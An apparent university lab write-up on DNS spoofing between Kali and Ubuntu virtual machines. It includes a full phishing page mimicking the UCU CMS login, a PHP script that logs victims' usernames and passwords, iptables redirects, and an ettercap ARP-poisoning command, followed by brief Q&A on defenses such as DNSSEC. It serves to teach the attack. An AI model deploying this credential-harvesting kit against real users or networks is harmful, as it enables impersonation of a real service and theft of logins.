





## Lab2: DNS Spoofing

In this lab we perform DNS spoofing attack, i.e., we'll redirect a victim's website request to your fake website.

## Setup (two virtual machines, both connected to the same network):
- Kali Linux (attacker)
- Ubuntu (victim)

First we verify connectivity
```
ifconfig # to check ip-address
```

kali: 192.168.64.9
ubuntu: 192.168.64.3

And test connectivity with ping on both machines
```
ping [other-vm-ip-address]
```



## Attacker 

Update & Install tools
```
sudo apt update
sudo apt install ettercap-text-only dsniff apache2 -y
```

Now we need to setup web server for phishing

First start apache
```
sudo systemctl start apache2
```

Now lets create phishing page that mimics ucu cms
```
sudo nano /var/www/html/index.html
```

```
<!DOCTYPE html>
<html>
<head>
    <title>UCU CMS Login</title>
    <style>
        body { font-family: Arial, sans-serif; background-color: #f5f5f5; }
        .container { width: 320px; margin: 100px auto; padding: 20px; background: white; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
        h2 { color: #920000; text-align: center; }
        input { width: 100%; padding: 10px; margin: 10px 0; box-sizing: border-box; border: 1px solid #ddd; }
        button { width: 100%; padding: 10px; background: #920000; color: white; border: none; cursor: pointer; }
    </style>
</head>
<body>
    <div class="container">
        <h2>UCU CMS Login</h2>
        <form method="post" action="capture.php">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Log in</button>
        </form>
    </div>
</body>
</html>
```

And credentials capture scrips:
```
sudo nano /var/www/html/capture.php
```
```
<?php
// Get the POST data
$username = isset($_POST['username']) ? $_POST['username'] : 'no_username';
$password = isset($_POST['password']) ? $_POST['password'] : 'no_password';
$ip = $_SERVER['REMOTE_ADDR'];

// Format the data
$data = "IP: $ip - Username: $username - Password: $password\n";

// Write to a file in a web-accessible location
$dir = '/var/www/html/data';
if (!file_exists($dir)) {
    mkdir($dir, 0777, true);
}
file_put_contents($dir.'/captured.txt', $data, FILE_APPEND);

// Redirect to the real site
header('Location: https://cms.ucu.edu.ua');
exit;
?>
```

Add proper permitions:
```
sudo mkdir -p /var/www/html/data
sudo chown www-data:www-data /var/www/html/data
sudo chmod 777 /var/www/html/data
```

Next we need to crate DNS spoofing rules file
```
sudo nano /etc/ettercap/etter.dns
```
and add there an entry for the target domain, as on the image bellow:



And also configure ip forwarding
```
sudo sysctl -w net.ipv4.ip_forward=1

sudo iptables -F
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 80
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 80
```

Now lets start network scanning,

firstly we identify active hosts 



And yay we see our kali ip, victim ip and gateway ip!!!

Now start traffic capture
```
sudo tcpdump -i eth0 -w dns_spoof_capture.pcap &
```

And launch ettercap
```
sudo ettercap -T -q -i eth0 -P dns_spoof -M arp:remote /<victim-ip>// /<gateway-ip>//
```

In my case
```
sudo ettercap -T -q -i eth0 -P dns_spoof -M arp:remote /192.168.64.3// /192.168.64.1//
```



## Victim

Go to `http://cms.ucu.edu.ua` ans safely enter your _fake_ credentials.

Those credentials are now captured on the attacker machien in `/var/www/html/data/captured.txt`



## Q&A

• Would this attack be possible if DHCP were to distribute a DNS address from an external network? Explain your answer.

Yes, it would still be possible, but the attacker would face additional challenges, as they would need to intercept traffic and respond faster than legitimate DNS servers.

• What are the purposes of creating a local DNS in a company? Give some reasons.

Local DNS servers improve resolution speed for internal resources and provide better control over domain name management, enhancing overall network efficiency.

• What technologies/protocols/policies can make this type of attack difficult/impossible?

For example, implementing DNSSEC provides authentication and integrity for DNS responses, while HTTPS encrypts data in transit, making it much harder for attackers to eavesdrop or tamper with communications.